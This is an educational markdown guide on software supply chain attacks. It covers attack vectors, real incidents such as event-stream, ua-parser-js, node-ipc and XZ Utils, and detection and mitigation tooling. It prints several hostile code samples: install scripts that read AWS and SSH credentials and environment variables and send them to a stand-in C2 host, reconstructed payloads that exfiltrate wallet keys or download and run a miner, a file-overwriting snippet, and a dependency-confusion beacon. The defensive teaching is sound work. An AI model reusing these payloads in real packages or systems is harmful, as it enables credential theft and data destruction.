


# Supply Chain Attacks

> **Attacking the tools, libraries, and pipelines that build software — rather than the software itself.**

---

## 🧠 What Is It? (Beginner Explanation)

Imagine you want to poison an entire city's water supply. You have two options:

1. **Break into every house** and contaminate each tap individually.
2. **Poison the water treatment plant** — and every house gets it automatically.

A **supply chain attack** is option 2. Instead of hacking your target directly, attackers compromise something your target **already trusts and uses**: a library, a build tool, a CI/CD pipeline, a CDN, or even a software update mechanism.

In web development, your app depends on hundreds of open-source packages. Each one is a potential entry point.

```
Your App
  └── depends on package-A
        └── depends on package-B
              └── depends on package-C  ← attacker compromises THIS
```

You never touched `package-C` directly. You never audited it. But it runs inside your app with full access to your environment — including your AWS keys, database credentials, and user data.

---

## 🏗️ How It Works (Technical Deep Dive)

### Attack Vectors

| Vector | Description | Example |
|--------|-------------|---------|
| **Dependency hijack** | Take over an abandoned/transferred package | event-stream (2018) |
| **Typosquatting** | Publish a package with a name similar to a popular one | `lodash` → `1odash` |
| **Dependency confusion** | Upload a public package with same name as a private internal one | Alex Birsan (2021) |
| **Compromised maintainer account** | Phish or brute-force a maintainer's credentials | ua-parser-js (2021) |
| **CI/CD pipeline compromise** | Inject malicious code at build time | SolarWinds (2020) |
| **CDN compromise** | Modify hosted JS/CSS files | Magecart-style attacks |
| **Dev tool backdoor** | Backdoor a compiler, linter, or scaffolding tool | XZ Utils (2024) |

### What Happens At Runtime

When a malicious npm package is installed and executed:

```javascript
// Typical malicious postinstall script in package.json
{
  "scripts": {
    "postinstall": "node ./dist/install.js"
  }
}
```

```javascript
// dist/install.js — runs automatically on npm install
const os = require('os');
const fs = require('fs');
const https = require('https');
const path = require('path');

// Steal AWS credentials
const awsCreds = path.join(os.homedir(), '.aws', 'credentials');
const sshKey   = path.join(os.homedir(), '.ssh', 'id_rsa');

function exfil(label, filePath) {
  try {
    const data = fs.readFileSync(filePath, 'utf8');
    const payload = JSON.stringify({ label, data, host: os.hostname(), user: os.userInfo().username });
    const req = https.request({
      hostname: 'attacker-c2.com',
      path: '/collect',
      method: 'POST',
      headers: { 'Content-Type': 'application/json', 'Content-Length': Buffer.byteLength(payload) }
    });
    req.write(payload);
    req.end();
  } catch (_) {}
}

exfil('aws', awsCreds);
exfil('ssh', sshKey);

// Steal environment variables (CI/CD secrets, API keys)
const envData = JSON.stringify(process.env);
https.request({ hostname: 'attacker-c2.com', path: '/env', method: 'POST' }, () => {})
     .end(envData);
```

This code runs **before your app even starts** — triggered by `npm install` in your CI/CD pipeline.

---

## 📊 Attack Flow Diagram



---

## 💥 Real-World Attacks

### 1. event-stream (2018) — The Bitcoin Heist

**Package**: `event-stream` | **Downloads**: ~2 million/week

**Timeline**:
1. Original maintainer (`dominictarr`) handed over the package to a new contributor named `right9ctrl` — he asked nicely and seemed legitimate.
2. `right9ctrl` published version `3.3.6` adding a new dependency: `flatmap-stream`.
3. `flatmap-stream` contained encrypted malicious code in its `test` directory.
4. The malicious code was **only activated** when running inside the Copay Bitcoin wallet app (it checked `package.json` for `copay-dash`).

**The Payload** (decrypted, simplified):
```javascript
// Targeted specifically at Copay wallet app
// Checked if running inside Copay by inspecting package.json
var desc = process.mainModule.children
  .filter(m => m.id.includes('copay-dash'))[0];

if (desc) {
  // Monkeypatched the wallet's balance display function
  // to steal private keys when user viewed wallet
  var original = desc.exports.getWallets;
  desc.exports.getWallets = function() {
    var result = original.apply(this, arguments);
    // Exfiltrate: wallet private keys + mnemonics
    require('http').request({
      hostname: '111.90.151.134',
      path: '/',
      method: 'POST'
    }).end(JSON.stringify(result));
    return result;
  };
}
```

**CVE**: No formal CVE assigned (npm ecosystem incident)
**Lesson**: Even abandoned packages with no recent activity can be weaponized.

---

### 2. ua-parser-js (2021) — Account Hijack

**Package**: `ua-parser-js` | **Downloads**: ~8 million/week  
**Malicious versions**: `0.7.29`, `0.8.0`, `1.0.0`

**What happened**:
- The legitimate maintainer's npm account was compromised (credential stuffing / phishing).
- Attacker published three new versions containing malicious `preinstall` scripts.

**Malicious preinstall.js (Linux variant)**:
```bash
#!/bin/sh
# Dropped as preinstall script on Linux targets
if [ "$(uname)" = "Linux" ]; then
    curl -s http://159.148.186.228/download/jsextension -o /tmp/jsextension
    chmod +x /tmp/jsextension
    /tmp/jsextension &   # Crypto miner
fi
```

**Malicious preinstall.bat (Windows variant)**:
```batch
@echo off
if exist "C:\Windows\System32\curl.exe" (
  curl -s http://159.148.186.228/download/jsextension.exe -o %TEMP%\jsextension.exe
  start /b %TEMP%\jsextension.exe
)
:: Also dropped: Bladabindi RAT (password stealer)
```

**Impact**:
- Crypto miner installed on thousands of developer machines and CI servers.
- **Bladabindi** RAT (Remote Access Trojan) installed on Windows — capable of stealing saved browser passwords, cryptocurrency wallets, and keylogging.

**CVE**: No single CVE; npm advisory GHSA-pjwm-rvh2-c87w

---

### 3. node-ipc (2022) — Protestware / Sabotage

**Package**: `node-ipc` | Used by: **Vue CLI** (millions of projects)  
**Author**: Brandon Nozaki Miller (`RIAEvangelist`)

**What the author added**:
```javascript
// Added to node-ipc v10.1.1 and v10.1.2
// Code checked the machine's public IP geolocation
import { lookup } from 'dns';
import { writeFile } from 'fs';

async function peaceNotWar() {
  const ipInfo = await fetch('https://api.ipgeolocation.io/ipgeo?apiKey=...')
    .then(r => r.json());
  
  // If IP is in Russia or Belarus — destroy files
  if (['RU', 'BY'].includes(ipInfo.country_code)) {
    // Recursively overwrite every file on the system
    const dir = require('path').resolve('/');
    require('fs').readdirSync(dir).forEach(f => {
      try {
        // Replace file contents with a heart emoji
        writeFile(require('path').join(dir, f), '❤️', () => {});
      } catch(_) {}
    });
    
    // Also created "WITH-LOVE-FROM-AMERICA.txt" on the Desktop
  }
}
```

**Why this matters**:
- Open-source maintainers can change the behavior of packages **at any time**.
- Millions of developers running `npm install` in CI pipelines unknowingly executed destructive code.
- This was not an external attacker — it was the **legitimate author**.
- Sparked major debate about maintainer responsibility and the security of open-source.

**CVE**: CVE-2022-23812

---

### 4. colors.js / faker.js (2022) — Intentional Breakage

**Author**: Marak Squires  
**Downloads**: `colors` ~23M/week, `faker` ~2.8M/week

**What happened**:
- Author published `colors@1.4.2` with an infinite loop that printed `LIBERTY LIBERTY LIBERTY` and random characters forever.
- Published `faker@6.6.6` (joke version) that exported an empty module.
- Motivation: protest against large corporations using open-source without contributing back.

**Malicious colors.js snippet**:
```javascript
// Intentionally broken infinite loop
for (let i = 666; i < Infinity; i++) {
  console.log(
    'LIBERTY'.rainbow +   // 'rainbow' was a feature of colors
    ' '.repeat(i % 80)
  );
}
```

**Impact**:
- Any app importing `colors` hung indefinitely on startup.
- Affected AWS CDK, and hundreds of other tools depending on these libraries.

---

### 5. XZ Utils Backdoor (2024) — CVE-2024-3094

**Severity**: CVSS 10.0 (Critical)  
**Package**: `xz-utils` / `liblzma` — compression library  
**Affected**: Linux distributions (Debian, Fedora, openSUSE) — systemd-linked SSH daemons

**Timeline (2-year social engineering campaign)**:
```
2021: "Jia Tan" appears as a new contributor
2022: Builds reputation with legitimate patches
2023: Pressures existing maintainer to hand over commit access
      (Other fake accounts also pressured maintainer)
Feb 2024: Jia Tan commits the backdoor in versions 5.6.0 and 5.6.1
Mar 2024: Andres Freund notices SSH login is 500ms slower, investigates
          Discovers backdoor in IFUNC resolver via liblzma
Mar 29, 2024: CVE-2024-3094 published, emergency patches released
```

**Technical Summary**:

The backdoor was inserted through a **build system script** (`build-to-host.m4`), not in the main source code — making it extremely hard to detect in code review.

```bash
# The backdoor modified the RSA_public_decrypt function in sshd
# via LD_PRELOAD / IFUNC mechanism to allow:
# - Authentication bypass using a specific RSA key
# - Arbitrary command execution before authentication

# Detecting if you were affected:
xz --version  # Check for 5.6.0 or 5.6.1

# Downgrade immediately:
# Debian/Ubuntu:
sudo apt install xz-utils=5.4.x

# Fedora:
sudo dnf downgrade xz
```

**Why it almost succeeded**:
- Passed multiple human code reviews.
- The malicious payload was hidden in **binary test files** (not readable source code).
- The attacker spent **2+ years** building trust.
- Was only caught by chance — an engineer noticed SSH was slower.

---

## 🔤 Typosquatting Attacks

Attackers register package names that are common typos or look-alikes of legitimate packages:

```
Legitimate Package    Malicious Typosquat
─────────────────    ──────────────────────
requests             request (Python — steals env vars)
react                reakt
lodash               1odash  (number 1 vs lowercase L)
numpy                numpay
urllib3              urlib3
tensorflow           tensorfow
cross-env            crossenv  (was real: stole env vars)
d3                   d3js
jquery               jquerry
express              expres
moment               momnet
```

**Real typosquatting example** — `crossenv` (2017):

```javascript
// crossenv package — looked like cross-env, a real popular package
// postinstall script:
var http = require('http');
var env  = JSON.stringify(process.env);
http.get('http://attackersite.com/?data=' + Buffer.from(env).toString('base64'));
```

**Protection**: Always verify the **exact** package name before installing:
```bash
# Before installing, check on npmjs.com or pypi.org
# Look at: weekly downloads, publish date, repository link, author history

# npm — verify before install
npm info lodash | head -20

# pip — verify before install
pip index versions numpy
```

---

## 🔀 Dependency Confusion (Alex Birsan, 2021)

**Discovered by**: Alex Birsan  
**Published**: Feb 2021 in "Dependency Confusion: How I Hacked Into Apple, Microsoft and Dozens of Other Companies"

**How it works**:

Many large companies use **private registries** for internal packages (e.g., `@mycompany/internal-auth`). When npm or pip resolves package names, they check **both** public and private registries.

**The attack**:
1. Researcher finds internal package names (via leaked `package.json`, GitHub repos, npm error messages).
2. Uploads a **public** package with the **same name** and a **higher version number**.
3. The build system sees the higher-versioned public package and installs it instead of the private one.
4. The attacker's package runs its `postinstall` script in the victim's CI pipeline.

```
Private registry: @corp/internal-auth@1.0.0
Attacker uploads: @corp/internal-auth@9.9.9 (to public npm)

Build runs: npm install
npm resolves: 9.9.9 > 1.0.0 → downloads attacker's package ✓
```

**Proof-of-concept payload** (`setup.py` for Python):
```python
# Dependency confusion PoC — setup.py
import subprocess
import socket
import os
import sys
from setuptools import setup
from setuptools.command.install import install

class PostInstall(install):
    def run(self):
        # Exfiltrate: hostname, username, working directory
        hostname = socket.gethostname()
        user = os.environ.get('USER', 'unknown')
        cwd = os.getcwd()
        
        # Send beacon to researcher (ethical version)
        subprocess.run([
            'curl', '-sk',
            f'https://research-endpoint.com/{hostname}/{user}',
            '--data', f'cwd={cwd}'
        ], capture_output=True)
        
        install.run(self)

setup(
    name='internal-package-name',
    version='9.9.9',  # Higher than internal version
    cmdclass={'install': PostInstall},
)
```

**Companies affected**: Apple, Microsoft, PayPal, Tesla, Shopify, Netflix, Yelp, Uber (paid bug bounties)

**Mitigation**:
```
# npm — use scoped packages and configure registry
# .npmrc
@mycompany:registry=https://internal.registry.company.com
always-auth=true

# pip — use --index-url to pin to internal mirror
pip install --index-url https://internal.pypi.company.com/simple/ mypackage

# Or use --no-index and --find-links
pip install --no-index --find-links /path/to/local/ mypackage
```

---

## 🧰 Malicious Package Behavior Taxonomy

What do compromised packages actually do?



---

## 🛠️ Tools & Detection

### Auditing Your Dependencies

```bash
# ── npm / Node.js ──────────────────────────────────────────

# Built-in vulnerability scanner
npm audit
npm audit --json | jq '.vulnerabilities | keys[]'

# Fix automatically (minor/patch only — review major!)
npm audit fix
npm audit fix --force   # dangerous: may introduce breaking changes

# Check for outdated packages
npm outdated

# Retire.js — checks against vulnerability databases
npx retire --js --node

# Socket.dev CLI — analyzes package behavior (installs, network calls)
npx @socket/cli check lodash

# ── Python ─────────────────────────────────────────────────

# pip-audit — official Python Security Advisory Database
pip install pip-audit
pip-audit
pip-audit --requirement requirements.txt

# Safety — checks against PyUp.io vulnerability database
pip install safety
safety check
safety check -r requirements.txt --json

# Bandit — static analysis for security issues
pip install bandit
bandit -r ./src

# ── Multi-Language / SAST ──────────────────────────────────

# OWASP Dependency-Check (Java-focused but supports many ecosystems)
dependency-check --project "MyApp" --scan ./ --out ./report/
dependency-check --project "MyApp" --scan ./ --format JSON

# Snyk — commercial tool with free tier
snyk auth           # authenticate
snyk test           # scan current project
snyk test --json    # machine-readable output
snyk monitor        # continuous monitoring (sends to Snyk dashboard)
snyk container test nginx:latest   # scan Docker images

# Trivy — vulnerability scanner (containers, filesystems, repos)
trivy fs .                    # scan filesystem
trivy repo https://github.com/myorg/myrepo
trivy image myapp:latest

# Grype — vulnerability scanner by Anchore
grype .
grype dir:/path/to/project

# ── Checking Specific Packages ─────────────────────────────

# npm — inspect a package before installing
npm view <package> | grep -E 'version|maintainers|scripts|dist'
npm pack <package> --dry-run   # see what files would be installed

# pip — inspect before installing
pip download <package> --no-deps -d /tmp/pkgcheck
cd /tmp/pkgcheck && unzip <package>.whl -d unpacked
cat unpacked/<package>-*/setup.py   # look for suspicious code
```

### Detecting Suspicious Package Activity at Runtime

```bash
# Monitor outbound network connections from npm install
# (Linux — using strace)
strace -e trace=network npm install 2>&1 | grep -E 'connect|sendto'

# Using tcpdump during install
tcpdump -i any -w /tmp/npm-install.pcap &
npm install
kill %1
tcpdump -r /tmp/npm-install.pcap -n | grep -v '127.0.0.1'

# Check what files were created/modified during install
find /tmp /home ~/.ssh ~/.aws -newer /tmp/before-install -ls 2>/dev/null

# Audit installed packages for known bad checksums
# (using npm's built-in integrity checking)
npm ci   # uses package-lock.json and verifies integrity hashes
```

### GitHub / CI Security Tools

```bash
# GitHub Dependabot — enable in .github/dependabot.yml
# (automatically creates PRs for dependency updates)

# GitHub Code Scanning with CodeQL
# Add to .github/workflows/codeql.yml:
# uses: github/codeql-action/analyze@v3

# OSV-Scanner by Google
go install github.com/google/osv-scanner/cmd/osv-scanner@v1
osv-scanner --lockfile package-lock.json
osv-scanner --lockfile requirements.txt
osv-scanner -r ./   # recursive scan

# cyclonedx — generate Software Bill of Materials (SBOM)
npm install -g @cyclonedx/cdxgen
cdxgen -o bom.json
```

---

## 🛡️ Mitigation

### 1. Lock Your Dependency Versions

```bash
# npm — ALWAYS commit package-lock.json
# Do NOT add package-lock.json to .gitignore

# Use `npm ci` in CI/CD (not `npm install`)
# ci = clean install — uses EXACT versions from lock file
npm ci

# Poetry (Python) — use poetry.lock
poetry install --no-root

# pip — generate hashed requirements
pip install pip-tools
pip-compile --generate-hashes requirements.in > requirements.txt
# requirements.txt now looks like:
# requests==2.31.0 \
#     --hash=sha256:58cd2187423839b8e... \
#     --hash=sha256:942c5a758f98d790...
pip install --require-hashes -r requirements.txt
```

### 2. Subresource Integrity for CDN Scripts

```html
<!-- Generate hash: openssl dgst -sha384 -binary lib.js | openssl base64 -A -->
<!-- Or use: https://www.srihash.org/ -->

<!-- jQuery with SRI -->
<script 
  src="https://code.jquery.com/jquery-3.7.1.min.js"
  integrity="sha384-1H217gwSVyLSIfaLxHbE7dRb3v4mYCKbpQvzx0cegeju1MVsGrX5xXxaYymDFwe"
  crossorigin="anonymous">
</script>

<!-- Bootstrap CSS with SRI -->
<link 
  rel="stylesheet"
  href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/css/bootstrap.min.css"
  integrity="sha384-T3c6CoIi6uLrA9TneNEoa7RxnatzjcDSCmG1MXxSR1GAsXEV/Dwwykc2MPK8M2HN"
  crossorigin="anonymous">

<!-- If hash doesn't match → browser BLOCKS script execution -->
```

### 3. Content Security Policy

```nginx
# nginx — restrict which scripts can execute
add_header Content-Security-Policy "
  default-src 'self';
  script-src 'self' 
    https://trusted-cdn.com 
    'sha256-HASH_OF_INLINE_SCRIPT';
  connect-src 'self' https://api.yourdomain.com;
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  object-src 'none';
  base-uri 'self';
  report-uri https://yourdomain.com/csp-report;
" always;
```

### 4. Private Registry Mirror

```bash
# Verdaccio — self-hosted npm registry
npm install -g verdaccio
verdaccio &
npm set registry http://localhost:4873/

# Package allowlisting — only approved packages can be installed
# Configure in verdaccio config.yaml:
# packages:
#   '@mycompany/*':
#     access: $all
#     publish: $authenticated
#   'lodash':
#     access: $all
#     proxy: npmjs   # allow from public npm
#   '**':
#     access: $all
#     # no proxy: blocks unknown packages
```

### 5. Least-Privilege CI/CD

```yaml
# GitHub Actions — minimal permissions
permissions:
  contents: read       # don't give write by default
  packages: read

jobs:
  build:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Install dependencies
        run: npm ci     # NOT npm install
        env:
          # Scope secrets — don't expose ALL secrets to every job
          NPM_TOKEN: ${{ secrets.NPM_TOKEN }}
      
      - name: Audit
        run: npm audit --audit-level=high
```

### 6. Two-Person Review for Dependency Updates

```
Process:
1. Dependabot creates PR for lodash 4.17.20 → 4.17.21
2. Developer reviews: What changed? (check diff on GitHub/npm)
3. Check: Does changelog mention security? Any new maintainers?
4. Second reviewer approves
5. Merge and deploy

Tools:
- socket.dev PR checks (analyzes behavior changes in PRs)
- Snyk PR checks
- GitHub Advisory Database notifications
```

### 7. Software Bill of Materials (SBOM)

```bash
# Generate SBOM — inventory of all dependencies
# CycloneDX format (widely supported)
npx @cyclonedx/cdxgen -o sbom.json --spec-version 1.5

# SPDX format
npx spdx-sbom-generator

# Verify SBOM against vulnerability databases
osv-scanner --sbom sbom.json
grype sbom:./sbom.json
```

---

## 📋 Famous Incidents Reference Table

| Year | Package | Ecosystem | Downloads/Week | Attack Type | Impact |
|------|---------|-----------|----------------|-------------|--------|
| 2018 | event-stream | npm | ~2M | Maintainer transfer | Bitcoin theft (Copay) |
| 2018 | bootstrap-sass | RubyGems | — | Account hijack | Backdoor installed |
| 2019 | rest-client (Ruby) | RubyGems | — | Account hijack | Backdoor/credential theft |
| 2020 | SolarWinds Orion | Software update | 18,000 orgs | Build pipeline | Nation-state espionage |
| 2021 | ua-parser-js | npm | ~8M | Account hijack | Miner + RAT (Bladabindi) |
| 2021 | coa, rc | npm | ~23M | Account hijack | Malicious postinstall |
| 2021 | Dependency Confusion | npm/pip/gem | — | Registry confusion | 35 companies affected |
| 2022 | node-ipc | npm | ~1M | Insider sabotage | File destruction (Russia/Belarus) |
| 2022 | colors.js / faker.js | npm | ~25M | Author protest | App breakage |
| 2022 | PyPI phishing | PyPI | — | Phishing + typosquat | Credential theft |
| 2024 | xz-utils | Linux distros | — | Long-term infiltration | SSH backdoor (CVE-2024-3094) |

---

## 🔍 Advanced: Detecting Malicious Packages Before Installing

```bash
# 1. Check the package's publish history
npm view <package> time --json | jq 'to_entries | sort_by(.value) | .[-5:]'
# Sudden new versions after long period = suspicious

# 2. Check who the maintainers are
npm view <package> maintainers

# 3. Look for install scripts
npm view <package> scripts
# Legitimate packages rarely need postinstall scripts

# 4. Check the repository link matches the npm page
npm view <package> repository.url
# If different from what you expect — RED FLAG

# 5. Inspect the actual tarball content
mkdir /tmp/pkg-audit && cd /tmp/pkg-audit
npm pack <package>
tar -tzf <package>.tgz | head -50   # list files
tar -xzf <package>.tgz
grep -r 'child_process\|exec\|spawn\|http\|https\|fetch\|eval\|Buffer.from' package/

# 6. Check downloads vs GitHub stars ratio
# Malicious packages often have 0 GitHub stars but somehow have downloads

# 7. Use Socket.dev to analyze package behavior
# https://socket.dev/npm/package/<packagename>
# Shows: network access, file system access, shell commands
```

---

## 📚 References

- [OWASP — Software Component Verification Standard (SCVS)](https://owasp.org/www-project-software-component-verification-standard/)
- [npm Security Advisories](https://github.com/advisories?query=type%3Areviewed+ecosystem%3Anpm)
- [CVE-2024-3094 — XZ Utils Backdoor](https://nvd.nist.gov/vuln/detail/CVE-2024-3094)
- [CVE-2022-23812 — node-ipc](https://nvd.nist.gov/vuln/detail/CVE-2022-23812)
- [Alex Birsan — Dependency Confusion (Medium)](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610)
- [Socket.dev — Supply Chain Security](https://socket.dev)
- [OpenSSF — Securing the Open Source Software Supply Chain](https://openssf.org)
- [SLSA Framework — Supply Chain Levels for Software Artifacts](https://slsa.dev)
- [CISA — Software Bill of Materials (SBOM)](https://www.cisa.gov/sbom)
- [Google OSV — Open Source Vulnerability Database](https://osv.dev)
- [Snyk Vulnerability DB](https://security.snyk.io)
